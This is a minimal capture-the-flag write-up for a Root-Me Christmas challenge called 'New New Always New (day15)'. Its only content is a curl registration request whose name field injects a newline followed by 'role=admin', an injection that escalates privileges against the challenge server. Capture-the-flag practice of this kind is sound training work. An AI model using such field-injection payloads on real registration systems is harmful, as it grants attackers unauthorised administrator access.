



# New New Always New (day15)

<p align="center"></p>


````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="center"></p>

<p align="center"></p>
